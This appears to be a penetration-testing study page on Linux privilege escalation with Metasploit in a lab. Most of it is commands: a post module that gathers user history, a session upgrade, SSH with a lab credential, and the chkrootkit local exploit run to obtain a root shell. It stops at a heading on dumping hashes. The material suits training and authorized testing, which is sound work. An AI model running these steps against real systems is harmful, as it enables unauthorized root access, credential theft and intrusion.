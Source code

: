 ```bash
msf6> use post/linux/gather/enum_users_history
msf6> set session 2
msf6> run
```

#### Exploit a vulnerable program

* The privilege techniques we can utilize will depend on the version of the Linux kernel running on the target system as well as the distribution release version.
* MSF offers very little in regards to Linux kernel exploit modules, however, in some cases, there may be an exploit module that can be utilized to exploit a vulnerable service or program in order to elevate our privileges.

```bash
kali@kali> service postgresql start && msfconsole

msf6> db_nmap -sV 192.167.22.3
msf6> 
msf6> ssh jackie@192.167.22.3  # jackie:password

/bin/bash -i
jackie@victim-1> id
# CTRL+Z

msf6> sessions -u 1
msf6> sessions 2

/bin/bash
jackie@victim-1> ps aux
jackie@victim-1> cat /bin/check-down
# CTRL+Z
```

<figure><img src="../../.gitbook/assets/115.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> search chkrootkit
msf6> use exploit/unix/local/chkrootkit
msf6> set session 2
msf6> set lhost 192.167.22.2
msf6> set chkrootkit /bin/chkrootkit
msf6> run  # it can take 2 minutes

/bin/bash -i
root@victim-1> id  # root
```

#### Dump hashes with Hashdump
